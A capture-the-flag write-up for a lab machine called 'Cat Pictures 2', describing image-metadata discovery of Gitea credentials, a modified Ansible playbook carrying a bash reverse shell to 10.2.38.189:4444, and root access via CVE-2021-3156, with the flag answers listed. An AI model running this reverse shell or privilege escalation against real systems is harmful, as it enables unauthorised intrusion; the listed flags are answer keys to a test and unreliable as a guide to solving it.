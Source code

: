 > # Cat Pictures 2

## Summary
- [Summary](#summary)
  - [What is Flag 1?](#what-is-flag-1)
  - [What is Flag 2?](#what-is-flag-2)
  - [What is Flag 3?](#what-is-flag-3)

### What is Flag 1?
The machine open port 80, it hosts some cat picture. I download all the images then use `exiftool` to find metadata from them.<br>
```shell
$ exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg 
ExifTool Version Number         : 12.76
File Name                       : f5054e97620f168c7b5088c85ab1d6e4.jpg
Directory                       : .
File Size                       : 7.4 MB
File Modification Date/Time     : 2024:09:11 12:11:10-04:00
File Access Date/Time           : 2024:09:11 12:11:22-04:00
File Inode Change Date/Time     : 2024:09:11 12:11:10-04:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
XMP Toolkit                     : Image::ExifTool 12.49
Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt
```
Navigate to this URI, you will see the credential of Gitea webapp.<br>
![](images/1.png)<br>
Login to this webapp, you will the repo contrain `flag1.txt`.<br>
![](images/2.png)<br>
**Answer:** 10d916eaea54bb5ebe36b59538146bb5

### What is Flag 2?
The .txt file hint the port 1337, this repo has a ansible's playbook that execuet command on the machine. So I change it to get reverse shell. The payload will look lie `bash -c 'bash -i >& /dev/tcp/10.2.38.189/4444 0>&1'`.<br>
After we run ansible playbook, we will get reverse shell and the `flag2.txt` is in current folder.<br>
![](images/3.png)<br>
**Answer:** 5e2cafbbf180351702651c09cd797920

### What is Flag 3?
Push linpease.sh to the machine, then execute it to find vulneratble to privilage escalation.<br>
We find the vuln CVE-2021-3156, compiled and execute it to get root privilage.<br>
![](images/4.png)<br>
**Answer:** 6d2a9f8f8174e86e27d565087a28a971
